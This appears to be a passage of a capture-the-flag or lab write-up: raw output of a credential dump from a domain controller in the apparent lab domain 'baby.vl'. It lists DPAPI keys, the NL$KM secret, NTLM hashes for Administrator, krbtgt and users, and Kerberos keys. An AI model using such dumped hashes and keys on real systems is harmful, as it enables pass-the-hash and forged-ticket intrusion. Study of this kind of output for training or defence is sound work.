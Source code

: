 ```
[*] DPAPI_SYSTEM
dpapi_machinekey:0xe620195f1a5e2d71842bbad9877d7c3ca8a31eda
dpapi_userkey:0x026920834cd39c2e8ba9401c44a8869fe6be0555
[*] NL$KM
 0000   B6 96 C7 7E 17 8A 0C DD  8C 39 C2 0A A2 91 24 44   ...~.....9....$D
 0010   A2 E4 4D C2 09 59 46 C0  7F 95 EA 11 CB 7F CB 72   ..M..YF........r
 0020   EC 2E 5A 06 01 1B 26 FE  6D A7 88 0F A5 E7 1F A5   ..Z...&.m.......
 0030   96 CD E5 3F A0 06 5E C1  A5 01 A1 CE 8C 24 76 95   ...?..^......$v.
NL$KM:b696c77e178a0cdd8c39c20aa2912444a2e44dc2095946c07f95ea11cb7fcb72ec2e5a06011b26fe6da7880fa5e71fa596cde53fa0065ec1a501a1ce8c247695
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1...............:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:36d9679dabe25509acf94aa77a2c17d3:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:833fc8820cbf8dbcdd9cc087f9029013:::
[*] Kerberos keys from ntds.dit
Administrator:aes256-cts-hmac-sha1-96:ad08cbabedff5acb70049bef721524a23375708cadefcb788704ba00926944f4
Administrator:aes128-cts-hmac-sha1-96:ac7aa518b36d5ea26de83c8d6aa6714d
Administrator:des-cbc-md5:d38cb994ae806b97
BABYDC$:aes256-cts-hmac-sha1-96:7dd1db235d37460d71030418ebd734e66a1669effc17d1cb1c7509e5ad9c81e5
BABYDC$:aes128-cts-hmac-sha1-96:cf50b6fbbd1567b06f37853c3a6c544d
BABYDC$:des-cbc-md5:a7f18f086bb554ea
krbtgt:aes256-cts-hmac-sha1-96:9c578fe1635da9e96eb60ad29e4e4ad90fdd471ea4dff40c0c4fce290a313d97
krbtgt:aes128-cts-hmac-sha1-96:1541c9f79887b4305064ddae9ba09e14
krbtgt:des-cbc-md5:d57383f1b3130de5
baby.vl\Jacqueline.Barnett:aes256-cts-hmac-sha1-96:851185add791f50bcdc027e0a0385eadaa68ac1ca127180a7183432f8260e084
baby.vl\Jacqueline.Barnett:aes128-cts-hmac-sha1-96:3abb8a49cf283f5b443acb239fd6f032
baby.vl\Jacqueline.Barnett:des-cbc-md5:01df1349548a206b
baby.vl\Ashley.Webb:aes256-cts-hmac-sha1-96:fc119502b9384a8aa6aff3ad659aa63bab9ebb37b87564303035357d10fa1039
baby.vl\Ashley.Webb:aes128-cts-hmac-sha1-96:81f5f99fd72fadd005a218b96bf17528
baby.vl\Ashley.Webb:des-cbc-md5:9267976186c1320e
baby.vl\Hugh.George:aes256-cts-hmac-sha1-96:0ea359386edf3512d71d3a3a2797a75db3168d8002a6929fd242eb7503f54258
baby.vl\Hugh.George:aes128-cts-hmac-sha1-96:50b966bdf7c919bfe8e85324424833dc
baby.vl\Hugh.George:des-cbc-md5:296bec86fd323b3e
baby.vl\Leonard.Dyer:aes256-cts-hmac-sha1-96:6d8fd945f9514fe7a8bbb11da8129a6e031fb504aa82ba1e053b6f51b70fdddd
baby.vl\Leonard.Dyer:aes128-cts-hmac-sha1-96:35fd9954c003efb73ded2fde9fc00d5a
baby.vl\Leonard.Dyer:des-cbc-md5:022313dce9a252c7
baby.vl\Ian.Walker:aes256-cts-hmac-sha1-96:54affe14ed4e79d9c2ba61713ef437c458f1f517794663543097ff1c2ae8a784
baby.vl\Ian.Walker:aes128-cts-hmac-sha1-96:78dbf35d77f29de5b7505ee88aef23df
baby.vl\Ian.Walker:des-cbc-md5:bcb094c2012f914c
baby.vl\Connor.Wilkinson:aes256-cts-hmac-sha1-96:55b0af76098dfe3731550e04baf1f7cb5b6da00de24c3f0908f4b2a2ea44475e
baby.vl\Connor.Wilkinson:aes128-cts-hmac-sha1-96:9d4af8203b2f9e3ecf64c1cbbcf8616b
```